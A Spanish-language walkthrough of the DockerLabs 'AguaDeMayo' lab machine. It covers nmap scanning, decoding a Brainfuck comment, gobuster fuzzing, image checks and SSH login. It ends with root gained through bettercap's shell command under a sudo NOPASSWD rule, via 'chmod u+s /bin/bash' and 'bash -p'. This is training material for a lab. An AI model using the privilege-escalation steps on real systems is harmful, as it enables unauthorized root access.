 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "AguaDeMayo".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh aguademayo.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos: el 22 (SSH) y el 80 (HTTP)
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña aun para atacar el puerto 22, vamos a probar poniendo la direccion IP en el navegador.
Sin embargo, aparece la tipica pagina de Apache, por lo que vamos a pulsar "CTRL + U" para ver si hay algo interesante en el codigo fuente y, tras bajar y bajar, vemos un "texto" comentado:
```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```
Tras buscar por internet, parece ser que es un tipo de codigo que pertenece a "Brainfuck", por lo que vamos a buscar algun "decodificador" en Google.
En mi caso, esta pagina: "https://www.dcode.fr/brainfuck-language" donde introducimos el texto anterior para ver que obtenemos y el resultado es este:
```
bebeaguaqueessano
```
Vale, ya tenemos algo que no sabemos si es un usuario o una contraseña, por lo que vamos a hacer algo de  FUZZING WEB con "gobuster" para ver si conseguimos algo mas de informacion:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,asp,aspx,jsp,html -t 20
```
Vemos que encuentra un directorio llamado "/images". El resto no parece que sean relevantes:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/.html                (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
Accedo entonces, desde el navegador y vemos que hay un archivo que se llama: "agua_ssh.jpg" por lo que procederemos a descargarlo con "wget", por ejemplo:
```
wget http://172.17.0.2/images/agua_ssh.jpg

--2024-08-04 01:43:44--  http://172.17.0.2/images/agua_ssh.jpg
Conectando con 172.17.0.2:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 50517 (49K) [image/jpeg]
Grabando a: «agua_ssh.jpg»

agua_ssh.jpg                 100%[===============================================>]  49,33K  --.-KB/s    en 0s    

2024-08-04 01:43:44 (2,11 GB/s) - «agua_ssh.jpg» guardado [50517/50517]
```
Una vez descargada, la abrimos y vemos que no hay mas que una gota de agua. Nada relevante por lo que probaremos primero con la herramienta "exiftool" a ver si hay algo en los metadatos:
```
exiftool agua_ssh.jpg


ExifTool Version Number         : 12.76
File Name                       : agua_ssh.jpg
Directory                       : .
File Size                       : 51 kB
File Modification Date/Time     : 2024:05:14 19:43:34+02:00
File Access Date/Time           : 2024:08:04 01:45:31+02:00
File Inode Change Date/Time     : 2024:08:04 01:43:44+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 640
Image Height                    : 427
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 640x427
Megapixels                      : 0.273
```
Pero no parece que haya nada. Es momento de probar si hay algo oculto mediante esteganografia con "steghide":
```
steghide extract -sf agua_ssh.jpg

Anotar salvoconducto: 
steghide: ¡no pude extraer ningún dato con ese salvoconducto!
```
Pero tampoco encontramos nada tal y como acabamos de ver. Asi que vamos a tirar un poco de fuerza bruta con HYDRA y vamos a ver si usando la palabra "bebeaguaqueessano" podemos conseguir bien un usuario o bien una contraseña.
Tras perder MUCHO tiempo y no obtener nada, he tenido que mirar una guia y resulta que el usuario era "agua". WTF !! En fin, volviendo a la maquina y ya teniendo el usuario y la contraseña, accedemos via SSH:
```
ssh agua@172.17.0.2
```
Tras poner "yes" e introducir despues la contraseña, ya estariamos dentro, por lo que empezariamos probando escaladas de privilegios tipicas, empezando por "sudo -l":
```
agua@224d3419cff1:~$ sudo -l
Matching Defaults entries for agua on 224d3419cff1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 224d3419cff1:
    (root) NOPASSWD: /usr/bin/bettercap
    
agua@224d3419cff1:~$ 
```
Si ejecutamos el binario, obtenemos una especie de "shell":
```
sudo -u root /usr/bin/bettercap

bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [00:20:52] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »
```
Como no se usarlo, ejecuto el comando "help" tal y como nos dicen arriba, para obtener informacion y comandos a ejecutar:
```
172.17.0.0/16 > 172.17.0.2  » help

help MODULE : List available commands or show module specific help if no module name is provided.

active : Show information about active modules.

quit : Close the session and exit.

sleep SECONDS : Sleep for the given amount of seconds.

get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.

set NAME VALUE : Set the VALUE of variable NAME.

read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.

clear : Clear the screen.

include CAPLET : Load and run this caplet in the current session.

! COMMAND : Execute a shell command and print its output. <=== INTERESANTE !!

alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
```
Si nos fijamos hay un comando que es "!" que nos permite ejecutar una "shell command", por lo que vamos a utilizar esta opcion:
```
172.17.0.0/16 > 172.17.0.2  » ! chmod u+s /bin/bash
```
Una vez ejecutado, salimos y ejecutamos el comando "bash -p", lo cual, tal y como se puede ver abajo, nos da un prompt con e usuario "root":
```
172.17.0.0/16 > 172.17.0.2  » exit

open /proc/sys/net/ipv4/ip_forward: read-only file systemagua@224d3419cff1:~$ bash -p

bash-5.2# whoami
root

bash-5.2# 
```
Y listo, la maquina estaria ya hecha.